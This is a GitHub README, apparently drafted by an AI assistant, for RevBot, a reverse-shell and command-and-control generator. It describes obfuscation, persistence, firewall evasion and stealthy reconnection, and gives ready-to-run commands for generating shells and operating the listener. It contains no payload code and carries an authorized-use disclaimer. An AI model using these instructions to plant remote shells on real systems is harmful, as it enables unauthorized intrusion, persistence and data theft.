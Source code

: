 ![RevBot Logo](https://github.com/exfil0/RevBot/blob/main/REVBOT_LOGO_1.png)

# RevBot

RevBot is an advanced reverse shell generator designed for penetration testing and educational purposes. It supports multiple client languages (Python, PowerShell, Bash) and protocols (TCP, HTTP with WebSocket for C2), with features like encryption (AES, TLS), encoding (base64, zlib), persistence mechanisms, multi-client session management, file transfers with checksums, and obfuscation. The tool emphasizes modularity and scalability, making it easy to extend for custom needs.

## Features

- **Multi-Language Clients**: Generate reverse shells in Python, PowerShell, or Bash, each with tailored capabilities.
- **Protocols**: TCP for traditional reverse shells; HTTP/WebSocket for firewall-evading C2 communication.
- **Encryption**: AES-256-CBC (consistent across clients where supported) and TLS with self-signed certificates.
- **Encoding**: None, base64, or zlib_base64 for data compression and evasion.
- **Persistence**: Platform-specific mechanisms like Windows registry or Linux cron, with debug logging for errors.
- **Session Management**: Handle multiple clients concurrently with commands like `sessions` and `interact <id>`.
- **File Transfers**: Upload/download small files (<1MB) with SHA256 checksums for integrity (basic in PowerShell/Bash).
- **Obfuscation**: Random variable/function names and base64-encoded constants to hinder detection.
- **Logging**: Comprehensive session and command logs for auditing, with stealth options.
- **Modular Structure**: Codebase organized into modules (generator, client, listener, utilities, templates) for easy maintenance and extension.
- **Cross-Platform**: Dynamic platform detection and compatibility with Windows, Linux, and macOS.
- **Enhancements**: Jittered reconnection for stealth, non-blocking HTTP C2 with queuing, and automatic TLS certificate generation.

## Installation

1. **Clone the Repository**:
   ```
   git clone https://github.com/exfil0/RevBot.git
   cd RevBot
   ```

2. **Install Dependencies**:
   The tool requires Python 3.8+ and the following packages:
   ```
   pip install -r revbot/requirements.txt
   ```
   Dependencies include:
   - `pycryptodome` for AES encryption
   - `websockets` for WebSocket C2
   - `prompt_toolkit` for interactive listener prompt

3. **Optional**: Install `openssl` for TLS certificate generation (e.g., on Ubuntu: `sudo apt install openssl`).

## Usage

Run the generator from the root directory:
```
python3 -m revbot --lhost <IP> --lport <PORT> [options]
```

### Examples

- Generate a Python TCP shell with AES encryption and Windows persistence:
  ```
  python3 -m revbot --lhost 192.168.1.100 --lport 4444 --shell-type python_tcp --encryption aes --persistence windows_registry --platform Windows --generate-tls
  ```

- Generate a PowerShell TCP shell with TLS:
  ```
  python3 -m revbot --lhost 192.168.1.100 --lport 443 --shell-type powershell_tcp --encryption tls
  ```

- Generate a Bash TCP shell with base64 encoding:
  ```
  python3 -m revbot --lhost 192.168.1.100 --lport 4444 --shell-type bash_tcp --encoding base64 --platform Linux
  ```

- Generate an HTTP/WebSocket Python client:
  ```
  python3 -m revbot --lhost 192.168.1.100 --lport 8080 --shell-type python_tcp --encryption tls --generate-tls
  ```

Generated files are saved in `revbot_output/` (configurable with `--output-dir`):
- Client script (e.g., `client_python_tcp.py`, `client_powershell_tcp.ps1`, `client_bash_tcp.sh`)
- Listener script (`revbot_listener.py`)
- Logs in `revbot_output/logs/`
- TLS certificates (`server.crt`, `server.key`) if `--generate-tls` is used

### Running the Listener
```
python3 revbot_output/revbot_listener.py
```

The listener supports both TCP and WebSocket connections on the same port. Use commands like:
- `sessions`: List active sessions.
- `interact <id>`: Switch to a session.
- `whoami` or any shell command.
- `upload_file <local_path>`: Upload a small file to the target.
- `download <remote_path>`: Download a small file from the target.
- `exit`: Shut down gracefully.

### Running the Client
- **Python**: `python3 client_python_tcp.py` (supports all features, including WebSocket if HTTP is configured).
- **PowerShell**: `powershell -File client_powershell_tcp.ps1` (basic file transfer, AES supported).
- **Bash**: `./client_bash_tcp.sh` (basic file transfer with base64, no AES).

## Command-Line Options

- `--lhost`: Required. Listener IP address.
- `--lport`: Required. Listener port.
- `--shell-type`: Client type (python_tcp, powershell_tcp, bash_tcp; default: python_tcp).
- `--encoding`: Encoding scheme (none, base64, zlib_base64; default: base64).
- `--encryption`: Encryption type (none, aes, tls; default: none).
- `--aes-key`: Base64-encoded AES key (32 bytes; auto-generated if omitted).
- `--persistence`: Persistence method (none, windows_registry; default: none).
- `--platform`: Target platform (Windows, Linux, Darwin; default: Windows).
- `--output-dir`: Output directory (default: revbot_output).
- `--jitter-min`: Minimum reconnect jitter in seconds (default: 5).
- `--jitter-max`: Maximum reconnect jitter in seconds (default: 15).
- `--generate-tls`: Generate self-signed TLS certificates for TLS encryption.

## Warnings and Limitations
- **PowerShell/Bash Clients**: Limited to basic command execution and file transfers (<1MB). No screenshot support. AES in PowerShell uses .NET AES-256-CBC (not Fernet). Bash uses base64 only (no AES). Use Python for full features.
- **File Transfers**: Limited to small files to avoid buffer issues. Use external tools for larger files.
- **HTTP/WebSocket C2**: Experimental; supports Python clients only. Use `--encryption tls` for secure WebSocket (wss://).
- **Dependencies**: Ensure `pycryptodome`, `websockets`, and `prompt_toolkit` are installed. `openssl` is required for TLS.
- **Legal Use**: RevBot is for authorized testing only. Obtain explicit permission before use. Misuse is illegal.

## Dependencies

See `revbot/requirements.txt`:
```
pycryptodome==3.20.0
websockets==12.0
prompt_toolkit==3.0.47
```

## Contribution

Contributions are welcome! Fork the repo, create a branch, and submit a pull request to the `main` branch. Follow standard GitHub workflow.

## License

MIT License - see [LICENSE](LICENSE) file for details. 

---

This README.md provides a complete overview, ready for your GitHub repo. It's structured for clarity and includes all necessary sections to get users started quickly. If you'd like additions, such as screenshots or more examples, let me know!
